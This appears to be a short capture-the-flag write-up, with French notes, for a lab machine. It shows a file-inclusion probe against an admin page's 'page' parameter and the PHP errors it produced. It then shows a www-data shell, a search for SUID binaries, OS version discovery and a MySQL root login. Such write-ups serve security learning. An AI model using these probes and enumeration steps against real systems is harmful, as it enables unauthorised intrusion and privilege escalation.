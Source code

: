 **Directory traversal / file inclusion possible (1)**

http://target.thm/admin/index.php?page=./test

```
Warning: require_once(./test.php): failed to open stream: No such file or directory in /app/admin/index.php on line 4
Fatal error: require_once(): Failed opening required './test.php' (include_path='.:/usr/share/php:/usr/share/pear') in /app/admin/index.php on line 4
```

> Ajoute automatiquement l'extention `.php`.








### Pown the box !

```sh
Linux d0956fa8d01b 4.14.77-70.59.amzn1.x86_64 #1 SMP Mon Nov 12 22:02:45 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 21:23:46 up 12 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


```sh
find / -perm -4000 2>/dev/null
/usr/lib/pt_chown
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/bin/umount
/bin/ping
/bin/ping6
/bin/su
/bin/mount
```

```sh
cat /etc/os-release 
NAME="Ubuntu"
VERSION="14.04.3 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.3 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
```

```
www-data@d0956fa8d01b:/$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 9
Server version: 5.5.47-0ubuntu0.14.04.1 (Ubuntu)
```